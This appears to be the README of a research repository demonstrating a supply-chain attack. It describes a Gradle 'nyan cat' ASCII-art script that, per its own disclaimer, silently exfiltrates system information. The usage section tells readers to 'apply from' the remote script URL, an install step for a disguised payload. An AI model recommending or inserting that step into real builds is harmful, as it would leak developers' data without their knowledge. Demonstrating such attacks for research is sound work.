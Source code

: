 **⚠️ DISCLAIMER:**  
This repository and associated scripts are **strictly for research and educational purposes only**.  
It includes intentionally vulnerable code demonstrating how sensitive information could be exfiltrated from within a seemingly benign utility that developers might download and use from GitHub repositories.  
**DO NOT** use or execute this code in any production or real-world environment.
The exfiltration attempt fails silently, ensuring the end user remains unaware of malicious activity, strictly for demonstrating potential vulnerabilities.
This repository is strictly for educational and research purposes only. It demonstrates how sensitive system information might be exfiltrated silently. **Do not run or deploy in a production environment.**

# Gradle TaskGraph ASCII Art

This Gradle script prints an ASCII art whenever the task graph is ready. It uses the `gradle.taskGraph.whenReady` hook to ensure the art appears just before task execution begins.

## Usage

### Importing the Script

To use this script in your Gradle project, import it directly from your GitHub repository. Save the script as a separate file (e.g., `ascii-art.gradle`) in your repository, then reference it in your `build.gradle` file using:

```gradle
apply from: 'https://raw.githubusercontent.com/oxsecurity/gradle-plugin-nyan-cat/refs/heads/main/nyancat.gradle'
```

### Colors

in order to set the color to the nyan cat you need to add this to your `build.gradle`:

```gradle
ext {
    asciiColor = 'red' // Set the desired color here
}
```

possible colors are:
- `red`
- `green`
- `yellow`
- `blue`
- `purple`
- `cyan`

---

This script is a fun way to add a little personality to your Gradle tasks! 🚀
